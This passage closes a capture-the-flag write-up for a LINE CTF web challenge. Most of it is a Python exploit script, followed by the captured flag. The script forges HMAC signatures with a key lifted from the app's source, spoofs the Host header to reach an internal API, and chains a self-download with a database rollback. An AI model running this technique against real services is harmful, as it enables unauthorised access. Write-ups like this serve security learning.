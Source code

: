 ```python
#!/usr/bin/env python3

import hashlib, hmac, json, requests

HOST = 'xxx.xxx.xxx.xxx'

# Pulled from /private/app/main.py @ L21
privateKey = b'let\'sbitcorinparty'

# Pulled from /private/app/main.py @ L61
def integrityKey(dbHash):
  retVal = hashlib.sha512((dbHash).encode('ascii')).hexdigest()
  return retVal

# Pulled from /private/app/main.py @ L152
def sign(query):
  retVal = hmac.new(privateKey, query.encode('ascii'), hashlib.sha512).hexdigest()
  return retVal

if __name__ == '__main__':
  i = 1
  while True:
    print(f'Try #{i}...', end='\r')

    # Get the hash of the current DB
    response = requests.get(f'http://{HOST}/apis/coin', headers={
      'Host': 'private:5000',
      'Lang': 'integrityStatus',
    })
    dbHash = json.loads(response.headers['lang'])['dbhash']

    # Make the API download itself in the backup dir
    query = 'src=http%3A%2F%2Flocalhost%3A5000%2FintegrityStatus'
    response = requests.get(f'http://{HOST}/apis/coin', headers={
      'Host': 'private:5000',
      'Lang': f'download?{query}',
      'Sign': sign(query)
    })

    # Use the name of the downloaded file to trigger a rollback
    query = 'dbhash=integrityStatus'
    response = requests.get(f'http://{HOST}/apis/coin', headers={
      'Host': 'private:5000',
      'Lang': f'rollback?{query}',
      'Sign': sign(query),
      'Key': integrityKey(dbHash)
    })

    # Multiple tries may be needed due to regular backup dir cleanup
    reply = response.headers['lang']
    if 'LINECTF{' in reply:
      print(f'Flag found! {reply}')
      break
    else:
      print(f'Wrong timing, retrying (\'{reply}\')')
      i += 1
```

This challenge had quite a bit of distractions and dead ends built in but in the end, as usual, the working exploit turned out to be conceptually simple.

🏁 __LINECTF{YOUNGCHAYOUNGCHABITCOINADAMYMONEYISBURNING}__{:.spoiler}